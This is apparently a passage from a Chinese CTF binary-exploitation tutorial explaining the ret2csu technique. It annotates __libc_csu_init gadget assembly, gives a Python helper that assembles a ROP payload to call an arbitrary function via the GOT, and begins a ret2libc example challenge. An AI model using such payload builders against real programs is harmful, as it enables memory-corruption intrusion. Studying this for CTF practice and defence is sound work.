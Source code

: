 很简单，就是依次从栈中弹出值来赋值给对应寄存器

能控制 rbx、rbp、r12、r13、r14、r15 寄存器

再看下面这段汇编

```plain
.text:0000000000401250 4C 89 F2                      mov     rdx, r14
.text:0000000000401253 4C 89 EE                      mov     rsi, r13
.text:0000000000401256 44 89 E7                      mov     edi, r12d
.text:0000000000401259 41 FF 14 DF                   call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:0000000000401259
.text:000000000040125D 48 83 C3 01                   add     rbx, 1
.text:0000000000401261 48 39 DD                      cmp     rbp, rbx
.text:0000000000401264 75 EA                         jnz     short loc_401250
```

将 r14、r13、r12 寄存器中的值分别赋值给 rdx、rsi、rdi，然后执行 r15+rbx\*8 这个地址的函数

结合上面，是不是看出了什么？

对了，可以利用这两个 gadget 来进行一个任意存在的函数调用

r12 对应 edi、r13 对应 rsi、r14 对应 rdx，r15 和 rbx 对应要调用的函数地址、rbp 赋值成 1 即可

可以构造 payload 函数：

```plain
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r15 should be the function we want to call() 注意是用函数 got 表 call！！
    # rdi=edi=r12
    # rsi=r13
    # rdx=r14
    # csu(0, 1, rdi, rsi, rdx, fun_got, last)
    payload = b""
    payload += p64(csu_end_addr) # pop rbx,rbp,r12,r13,r14,r15
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)#call
    payload += b'\x00' * 0x38#csu后的汇编指令跳转   
    payload += p64(last)    
    return payload
```

ps：编译的 libc 版本不同各寄存器的对应关系也会不同，具体要看程序中该函数的构成。

### 例题：2023 极客大挑战 ret2libc

ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  write(1, "try this\n", 9uLL);
  vuln();
  write(1, "bye ~", 5uLL);
  return 0;
}
```

